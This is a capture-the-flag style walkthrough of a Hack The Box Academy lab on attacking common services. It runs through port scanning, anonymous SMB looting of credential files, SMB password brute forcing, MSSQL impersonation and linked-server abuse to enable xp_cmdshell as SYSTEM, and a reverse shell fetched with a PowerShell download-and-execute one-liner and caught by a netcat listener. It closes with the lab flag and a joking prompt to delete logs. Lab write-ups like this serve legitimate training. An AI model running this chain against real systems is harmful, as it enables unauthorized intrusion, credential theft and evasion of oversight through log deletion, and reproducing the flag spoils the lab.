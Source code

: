 ```yaml
---
title: "HTB Academy | Attacking Common Services"
description: "Lorem ipsum dolor sit amet, consectetur adipiscing elit, sed do eiusmod tempor incididunt ut labore et dolore magna aliqua."
pubDate: "Nov 18 2024"
heroImage: "https://academy.hackthebox.com/storage/modules/116/logo.png?t=1730242916"
badge: "Hard Lab"
tags: ["Exploitation","Sql","MSSQL","Bruteforcing","Windows","Smb","Privesc","Reverse Shell"]
---
```



- 1. Nmap Scanning TCP OPEN Ports:

```sh
sudo nmap -sS --open --min-rate 5000 -p- -Pn -n -vvv 10.129.134.163 -oG allPorts
```

```sh
PORT     STATE SERVICE       REASON
135/tcp  open  msrpc         syn-ack ttl 127
445/tcp  open  microsoft-ds  syn-ack ttl 127
1433/tcp open  ms-sql-s      syn-ack ttl 127
3389/tcp open  ms-wbt-server syn-ack ttl 127
```

- 1.2 Nmap basic scripts an service scanning:

```sh
nmap -sCV -p 135,445,1433,3389 10.129.134.163 -oN target
```

```python
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
445/tcp  open  microsoft-ds?
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-info: 
|   10.129.134.163:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ms-sql-ntlm-info: 
|   10.129.134.163:1433: 
|     Target_Name: WIN-HARD
|     NetBIOS_Domain_Name: WIN-HARD
|     NetBIOS_Computer_Name: WIN-HARD
|     DNS_Domain_Name: WIN-HARD
|     DNS_Computer_Name: WIN-HARD
|_    Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2024-11-17T06:52:40
|_Not valid after:  2054-11-17T06:52:40
|_ssl-date: 2024-11-17T06:57:07+00:00; -1s from scanner time.
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=WIN-HARD
| Not valid before: 2024-11-16T06:52:28
|_Not valid after:  2025-05-18T06:52:28
| rdp-ntlm-info: 
|   Target_Name: WIN-HARD
|   NetBIOS_Domain_Name: WIN-HARD
|   NetBIOS_Computer_Name: WIN-HARD
|   DNS_Domain_Name: WIN-HARD
|   DNS_Computer_Name: WIN-HARD
|   Product_Version: 10.0.17763
|_  System_Time: 2024-11-17T06:56:26+00:00
|_ssl-date: 2024-11-17T06:57:06+00:00; 0s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-11-17T06:56:30
|_  start_date: N/A
```

------------------------------------------


- 2. Listing available smb folders:

```ruby
❯ smbclient -N -L //10.129.134.163/

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	Home            Disk      
	IPC$            IPC       Remote IPC
```


- 2.2 Download home directory:

```ruby
❯ smbclient  //10.129.134.163/home -U "" -Tc target.tar.gz
Password for [WORKGROUP\]:  # ==> Press enter
tar: dumped 5 files and 0 directories
Total bytes written: 576 (0,0 MiB/s)
```

- 2.3 Decompress the file and Search:

```python
❯ 7z x target.tar.gz

❯ tree
   -  .
   - ├──  HR
   - ├──  IT
   - │   ├──  Fiona
 118 │   │   └──  creds.txt
   - │   ├──  John
 101 │   │   ├──  information.txt
 164 │   │   ├──  notes.txt
  99 │   │   └──  secrets.txt
   - │   └──  Simon
  94 │       └──  random.txt
   - ├──  OPS
   - ├──  Projects
```


- 2.4 Create a dictionary with the credentials in the files:

```bash
❯ cat passwords
───────┬────────────────────────────────────
       │ File: passwords
───────┼────────────────────────────────────
   1   │ kAkd03SA@#!
   2   │ 48Ns72!bns74@S84NNNSl
   3   │ SecurePassword!
   4   │ Password123!
   5   │ SecureLocationforPasswordsd123!!
   6   │ 1234567
   7   │ (DK02ka-dsaldS
   8   │ Inlanefreight2022
   9   │ Inlanefreight2022!
  10   │ TestingDB123
  11   │ (k20ASD10934kadA
  12   │ KDIlalsa9020$
  13   │ JT9ads02lasSA@
  14   │ Kaksd032klasdA#
  15   │ LKads9kasd0-@
───────┴────────────────────────────────────
```

- 2.5. Brute force with crackmapexec:

```ruby
❯ crackmapexec smb 10.129.134.163 -u fiona -p passwords
SMB         10.129.134.163  445    WIN-HARD         [*] Windows 10 / Server 2019 Build 17763 x64 (name:WIN-HARD) (domain:WIN-HARD) (signing:False) (SMBv1:False)
SMB         10.129.134.163  445    WIN-HARD         [-] WIN-HARD\fiona:kAkd03SA@#! STATUS_LOGON_FAILURE 
SMB         10.129.134.163  445    WIN-HARD         [+] WIN-HARD\fiona:48Ns72!bns74@S84NNNSl # ==> pass
```

------------------

- 3.1 Connection to mssql with windows authentication:

```sh
impacket-mssqlclient -p 1433 fiona@10.129.134.163 -windows-auth   
```


- 3.2 Checking remote and vinculate servers:

```sql
SQL (WIN-HARD\Fiona  guest@master)> select srvname, isremote from sysservers
srvname                 isremote   
---------------------   --------   
WINSRV02\SQLEXPRESS            1   

LOCAL.TEST.LINKED.SRV          0   
```

- 3.3 Checking if we have permissions to connect as user "fiona":

```sql
SQL (WIN-HARD\Fiona  guest@master)> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [LOCAL.TEST.LINKED.SRV]
ERROR(WIN-HARD\SQLEXPRESS): Line 1: Login failed for user 'NT AUTHORITY\ANONYMOUS LOGON'.
```

- 3.4 Searching for other users in the system database:

```
SQL (WIN-HARD\Fiona  guest@master)>  SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
name    
-----   
john    

simon   

```

- 3.5 changing to user john and checking if we have permissions on LOCAL.TEST.LINKED.SRV:

```sql
SQL (WIN-HARD\Fiona  guest@master)> execute as login = 'john'
SQL (john  guest@master)> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [LOCAL.TEST.LINKED.SRV]
                
-   -   -   -   
1   1   1   1   

```

- 3.6 We have permissions as sysadmin, so let's make some configurations to execute commands in the machine:


```sql
SQL (john  guest@master)> execute('sp_configure "show advanced options",1') at [LOCAL.TEST.LINKED.SRV]
INFO(WIN-HARD\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL (john  guest@master)> execute('reconfigure') at [LOCAL.TEST.LINKED.SRV]

SQL (john  guest@master)> execute('sp_configure "xp_cmdshell",1') at [LOCAL.TEST.LINKED.SRV]
INFO(WIN-HARD\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL (john  guest@master)> execute('reconfigure') at [LOCAL.TEST.LINKED.SRV]
SQL (john  guest@master)> execute('xp_cmdshell "whoami"') at [LOCAL.TEST.LINKED.SRV]
output                
-------------------   
nt authority\system   
```


- 4 Using ConPtyShell from antoniococo [Github](https://github.com/antonioCoco/ConPtyShell):

```sh
wget https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 
```

- 4.1 In the script at last line, you can put this code and set the configuration of your machine and listeting port. Rows and columns is the size of your terminal, in my case is 48 and 162, you can use ("stty size") in your terminal to see yours.

```powershell
Invoke-ConPtyShell -RemoteIp <yourIp> -RemotePort 666 -Rows 48 -Cols 162
```


- 4.1 Preparing the Web server and listening with netcat:

```sh
python3 -m http.server 80
```

```sh
nc -nlvp 666
```

![Texto alternativo](/Pasted%20image%2020241118004402.png)

4.2 Getting and executing the script from our machine:

```sql
SQL (john  guest@master)> execute('xp_cmdshell "powershell IEX(New-Object Net.WebClient).DownloadString(''http://<yourIP>/PS.ps1'')" ') at [LOCAL.TEST.LINKED.SRV]
```


4.3 Searching the flag:

```powershell
PS C:\> cd C:\Users\Administrator\Desktop\
PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name                                                                                                             
----                -------------         ------ ----                                                                                                             
-a----        4/21/2022   4:07 PM             27 flag.txt                                                                                                         


PS C:\Users\Administrator\Desktop> type .\flag.txt 
HTB{46u$!n9_l!nk3d_$3rv3r$}
PS C:\Users\Administrator\Desktop>  
```

- 4.4 You can get the flag and remember to delete all the logs :D

